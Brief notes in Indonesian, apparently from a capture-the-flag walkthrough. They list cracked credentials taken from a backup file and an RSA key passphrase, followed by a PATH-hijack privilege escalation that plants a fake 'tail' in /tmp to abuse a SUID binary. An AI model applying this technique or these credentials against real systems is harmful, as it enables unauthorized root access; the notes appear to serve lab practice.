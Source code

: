 dapat creds dari file .bak, lalu di crack dengan john
    - bulldog19        (admin)

dapat passphrase key rsa barry:
    - urieljames       (barry_rsa)


menggunakan suid untuk privesc:
- `echo '/bin/bash' > /tmp/tail'
- `chmod +x /tmp/tail`
- `export PATH=/tmp:$PATH`
- `/home/joe/live_log`
